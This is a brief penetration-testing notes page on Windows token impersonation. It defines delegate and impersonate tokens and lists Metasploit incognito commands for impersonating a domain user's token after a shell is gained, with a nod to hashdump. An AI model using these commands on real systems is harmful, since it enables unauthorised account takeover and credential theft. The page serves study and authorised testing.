# Token Impersonation

**Permissions: User Permissions**

## What are tokens?

* **Temporary Keys that allow you to access to a system/network** without having to provide credentials each time you access a file.
* Think cookies but in this case for computers.

### Types of Tokens

* Delegate Token **-** **Create for logging into a machine or using Remote Desktop.**
* Impersonate Token **-** Basically is a **"non-interactive". Such as attaching a network drive or a domain logon script.**

## Execution

### Metasploit

Once you have a shell session open, type the following commands.

```
list_tokens -u   // List's all the user tokens on a machine

load incognito   // load the tool built-in metasploit 

impersonate_token <domian>\\<user> // impersonate the user token

rev2self  // if you have any problems executing programs like hashdump
```
